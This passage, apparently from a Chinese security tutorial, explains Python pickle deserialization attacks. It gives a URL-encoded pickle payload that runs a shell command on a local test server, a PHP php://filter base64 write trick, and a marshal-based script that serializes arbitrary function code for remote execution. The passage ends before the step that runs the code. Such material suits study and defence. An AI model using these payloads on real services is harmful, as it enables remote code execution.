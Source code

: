 ```python
      srvr.serve_forever()
```

  

  运行以上代码后，将运行一个监听本地8000端口的web服务器，通过如下URL访问，传递Payload给服务器。

```
http://127.0.0.1:8000/?payload=cnt%0Asystem%0Ap1%0A(S%27echo%20test%20%3Epoc.txt%27%0Ap2%0AtRp3%0A.
```

  也和本地环境一样，成功运行了命令，生成了poc.txt

  在PHP中还有有一种比较常见的思路，通过base64编码后传递，如下这种，那我们可以在python中借鉴。这部分内容包含在了“执行任意python代码的payload”小节中。

  http://www.xxx.com?path=php://filter/write=convert.base64-decode/resource=1.php

  **2.执行任意python代码的payload**

  我们的目标是实现任意代码执行，所以我们要序列化的对象成了code类型，但是pickle是不能序列化code对象的。

  但幸运的是，从python2.6起，包含了一个可以序列化code对象的模块–Marshal。由于python可以在函数当中再导入模块和定义函数，所以我们可以将自己要执行的代码都写到一个函数里foo()， 所以有了如下代码：

```python
  # !/usr/bin/env python
  # -*- coding:utf-8 -*-
  __author__ = 'bit4'
  __github__ = 'https://github.com/bit4woo'
  __filename__ = 'pickle_poc_gen0.py'

  import marshal
  import base64
  import cPickle
  import urllib

  def foo():#you should write your code in this function
      import os
      def fib(n):
          if n <= 1:
              return n
          return fib(n-1) + fib(n-2)
      print 'fib(10) =', fib(10)
      os.system('echo anycode >>poc.txt')

  try:#尝试使用cPickle来序列号代码对象
      cPickle.dumps(foo.func_code)
  except Exception as e:
      print e #TypeError: can't pickle code objects

  code_serialized = base64.b64encode(marshal.dumps(foo.func_code))
  print code_serialized
```

  

  想要这段输出的base64的内容得到执行，我们需要如下代码：
